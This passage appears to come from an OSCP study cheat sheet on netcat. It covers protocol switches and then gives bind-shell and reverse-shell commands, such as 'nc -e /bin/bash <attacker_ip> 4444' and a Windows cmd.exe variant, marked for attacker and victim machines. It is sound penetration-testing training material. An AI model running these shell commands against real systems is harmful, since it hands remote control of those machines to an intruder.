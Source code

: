 {% hint style="info" %}
The netcat tool supports some protocols, but it works mainly on the TCP protocol. If you want to choose a different protocol, you must specify the type of protocol through switches.
{% endhint %}

`-t` (TCP)  -> To use TCP instead of the default.

`-u` (UDP) -> To Use UDP Protocol

> There are some other protocols, such as RAW and others, and I will leave it to you to search for that

\--\
\
Bind shell

`nc -nvlp 4444 -e /bin/bash` ⇒ on the victim machine

`nc -nv 10.0.2.10 4444` ⇒ on attacker machine to connect with the victim machine

—

#### Reverse Shell

`nc -nvlp 4444` ⇒ on attacker machine

`nc -nv 10.0.2.9 4444` -e /bin/bash ⇒ on victim machine

`netcat` is a powerful tool often used in the OSCP (Offensive Security Certified Professional) exam for various purposes, such as setting up reverse shells, file transfers, port scanning, and even setting up a simple web server. Here are some common `netcat` use cases that are particularly relevant for the OSCP:

#### 1. Reverse Shells

A reverse shell is a shell session initiated by the target machine to the attacker's machine. This is often used to bypass firewalls and NAT.

**On the Attacker's Machine (Listening):**

```sh
nc -lvnp 4444
```

**On the Target Machine (Connecting Back):**

```sh
nc -e /bin/bash <attacker_ip> 4444
```

For Windows targets:

```sh
nc.exe -e cmd.exe <attacker_ip> 4444
```

#### 2. Bind Shells

A bind shell is a shell session where the target machine opens a listening port and waits for an attacker to connect to it.
